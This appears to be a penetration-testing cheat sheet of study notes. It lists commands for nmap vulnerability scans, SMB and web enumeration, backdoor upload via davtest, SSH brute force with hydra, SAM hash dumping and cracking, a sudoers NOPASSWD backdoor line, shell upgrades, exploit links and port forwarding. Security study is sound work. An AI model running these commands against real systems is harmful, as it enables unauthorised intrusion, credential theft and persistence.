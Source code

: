 ## ENUMERATION

### Find all open ports
```
nmap -sV -Pn -p- -T4 -A <IP>
nmap -Pn -sT -sV -A --script=default,banner -p- <IP>
nmap -n -A -sU -T4 <IP>
```
### SSH scan
```
nmap -sV -Pn -p 22 --script=ssh-auth-methods,ssh-hostkey,ssh-run,sshv1 <IP>
```
### SMB Scan
```
nmap --script=smb-enum-shares,smb-ls,smb-enum-users,smb-mbenum,smb-os-discovery,smbsecurity-mode,smb-vuln-cve2009-3103,smb-vuln-ms06-025,smb-vuln-ms07-029,smb-vuln-ms08-067,smb-vuln-ms10-054,smb-vuln-ms10-061,smb-vuln-regsvc-dos <IP>
```

### FTP scan
```
nmap -sV -Pn -p 21 --script=ftp-anon,ftp-bounce,ftp-libopie,ftp-proftpd-backdoor,ftp-vsftpdbackdoor,ftp-vuln-cve2010-4221 <IP>
```

### Vulnerability Scan
#### eternalblue scan
```
nmap -p445 --script smb-vuln-ms17-010 <IP-range>
```

### linux enumeration 
```
enum4linux -a <IP>
```

## Samba shared folder access
```
smbclient \\\\10.10.10.10\\folder
```

## WEB PENTEST

### enumerate port 80
```
nikto -host http://<IP>
```

### sqlmap with request file
```
sqlmap -r search-test.txt -p param
```
### If PUT method is enabled
```
davtest -move -sendbd auto -url http://$ip
cadaver <IP>
cad> PUT met.asp met.asp
```

## ENCRYPTIONS AND DECRYPTIONS

### Detect the hash type
```
hash-identifier
```

### Password bruteforce using hydra
```
hydra -l bob -p password ssh://10.10.10.1 -t 4
hydra -L user.txt -P pass.txt ssh://10.10.10.1 -t 4
hydra -s <port> -L user.txt -P pass.txt ssh://10.10.10.1 -t 4
```

### samdump2
```
samdump2 SYSTEM SAM -o passwords.key
cat passwords.key | cut -d ":" -f4 >> hashvalue
hashcat -a 0 -m 1000 hashvalue rockyou.txt --force
```

### Online md5 cracker
```
https://www.md5online.org/md5-decrypt.html
```

## LINUX PRIVILAGE ESCALATION

## Check editable crontabs
```
cat /etc/crontab
```

### Shell upgrade
```
echo os.system('/bin/bash')
```

### upgraded it to a pseudo-terminal using python
```
python -c 'import pty; pty.spawn("/bin/bash")'
```

### First do some privilage checking
```
http://www.securitysift.com/download/linuxprivchecker.py
```

### if you can edit sudoers file, just add this line
```
echo 'bob ALL=(ALL) NOPASSWD:ALL' >> /etc/sudoers
```

## WINDOWS PRIVILAGE ESCALATION
### Windows File search
```
where /r c:\ proof.txt
```

### binary path add
```
export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/ucb/
```

### Dirty COW Vulnerability
```
https://www.exploit-db.com/exploits/40839
```
### 'afd.sys' Local Privilege Escalation

#### Windows Xp service pack 3 and Windows 2000 service pack 2 is vulnerable to this.
exploit url:
```
https://raw.githubusercontent.com/abatchy17/WindowsExploits/master/MS11-080%20-%20AFD.sys/MS11-080.py
```
video: 
```
https://www.youtube.com/watch?v=rxNziQlk7sA
```

## PORT FORWARDING

## Windows port forwarding
```
netsh interface portproxy add v4tov4 listenaddress=localaddress listenport=localport connectaddress=destaddress connectport=destport
```
## Linux port forwarding
```
ssh -p 9002 -L10000:127.0.0.1:10000 user@<IP2>
ssh -p 9002 -L10000:<IP1>:22 user@<IP2>
```
